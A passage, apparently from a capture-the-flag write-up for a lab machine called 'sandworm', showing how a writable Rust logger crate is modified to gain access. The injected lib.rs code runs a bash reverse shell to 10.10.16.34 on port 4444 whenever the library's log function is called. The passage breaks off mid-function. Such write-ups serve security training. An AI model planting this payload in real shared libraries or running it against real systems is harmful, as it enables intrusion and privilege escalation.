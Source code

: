 ```bash
    source: String,
    data: String,
}

fn main() {
    println!("
             ,,
MMP\"\"MM\"\"YMM db          `7MN.   `7MF'         mm
P'   MM   `7               MMN.    M           MM
     MM    `7MM `7MMpdMAo. M YMb   M  .gP\"Ya mmMMmm
     MM      MM   MM   `Wb M  `MN. M ,M'   Yb  MM
     MM      MM   MM    M8 M   `MM.M 8M\"\"\"\"\"\"  MM
     MM      MM   MM   ,AP M     YMM YM.    ,  MM
   .JMML.  .JMML. MMbmmd'.JML.    YM  `Mbmmd'  `Mbmo
                  MM
                .JMML.

");
...
```

Let's look at the library itself:

```bash
silentobserver@sandworm:/opt/crates$ ls -la
total 12
drwxr-xr-x 3 root  atlas          4096 May  4 17:26 .
drwxr-xr-x 4 root  root           4096 Jun 30 19:20 ..
drwxr-xr-x 5 atlas silentobserver 4096 May  4 17:08 logger
```

We can write to this file! Let's write the payload:

```bash
silentobserver@sandworm:/opt/crates/logger/src$ nano lib.rs

extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.16.34/4444 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("panic");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);

        println!("stout: {}", stdout);
        println!("stderr: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("stderr: {}", stderr);
    }

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
```